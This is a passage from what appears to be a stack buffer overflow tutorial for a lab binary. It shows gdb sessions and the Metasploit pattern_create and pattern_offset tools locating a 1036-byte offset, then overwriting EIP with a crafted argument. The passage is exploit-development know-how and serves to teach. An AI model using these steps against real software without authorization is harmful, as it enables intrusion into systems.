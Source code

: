 ```console
fs             0x0	0
gs             0x63	99
```

### Determine The Offset 

The offset is used to determine how many bytes are needed to overwrite the buffer and how much space we have around our shellcode. Shellcode is a program code that contains instructions for an operation that we want the CPU to perform.

Let's use the script **pattern_create** to determinate the exact number of bytes to reach the EIP:
```console
zero@pio$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
zero@pio$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```

Now replace the 1200 "U"s with the pattern:
```console
gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

We see that the EIP displays a different memory address:
```console
(gdb) info registers eip

eip            0x69423569	0x69423569
```

We can use another MSF tool called "**pattern_offset**" to calculate the exact number of characters (offset) needed to advance to the **EIP**:
```console
zero@pio$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

If we now use precisely this number of bytes for our "U"s, we should land exactly on the **EIP**. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "\x66" and execute it to ensure we control the **EIP**.
```console
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
